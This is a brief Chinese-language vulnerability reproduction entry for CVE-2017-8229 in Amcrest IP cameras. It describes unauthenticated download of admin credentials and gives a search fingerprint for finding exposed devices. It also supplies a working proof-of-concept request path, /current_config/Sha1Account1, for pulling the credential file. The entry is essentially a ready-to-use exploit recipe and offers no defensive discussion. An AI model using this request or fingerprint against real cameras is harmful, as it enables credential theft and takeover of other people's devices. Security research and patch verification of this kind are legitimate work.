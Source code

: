 # Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

```
Amcrest Technologies. Amcrest IP Camera Web all
```

## 网络测绘

```
"Amcrest"
```

## 漏洞复现

登录页面

![image-20220519161504045](./images/202205191616449.png)

POC

```
/current_config/Sha1Account1
```

![image-20220519161546887](./images/202205191616340.png)